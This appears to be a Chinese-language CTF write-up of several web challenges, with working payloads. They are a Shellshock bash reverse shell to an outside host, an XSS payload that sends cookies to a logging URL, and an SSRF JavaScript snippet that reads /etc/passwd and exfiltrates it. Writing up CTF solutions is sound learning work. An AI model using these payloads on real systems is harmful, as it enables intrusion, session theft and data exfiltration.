 ### command-executor

這題可以LFI，然後看code可以發現暗示shellshock

用shellshock拿shell:

`() { :a; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/kaibro.tw/5278 0>&1'`

然後去解/flag-reader即可

### xssme

我的payload:

`<svg/onload="document.location='http://kaibro.tw/log.php?c='+document.cookie">`

### xssrf leak

因為過濾一堆東西，直接把js部分用hex編碼即可繞過

可以發現admin panel有request.php，可以送request並讀出內容

這裏可以SSRF，可以用file協議讀檔

例如以下這樣，可以讀`/etc/passwd`

```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
        if (xmlhttp.readyState==4 && xmlhttp.status==200)
        {
            document.location='http://kaibro.tw/log.php?c='+btoa(xmlhttp.responseText);
        }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///etc/passwd");
```

讀`/var/www/html/config.php`就可以看到FLAG

### xssrf redis

這題跟上題一樣，是利用request.php去做SSRF

只是這題FLAG藏在redis中

可以用`gopher`來做redis的未授權訪問

把裡面的flag dump出來

### wordpress1

這題搜一下，core.php裡可以發現`print_f14g()`這個函數

其中的`$h`，就是md5
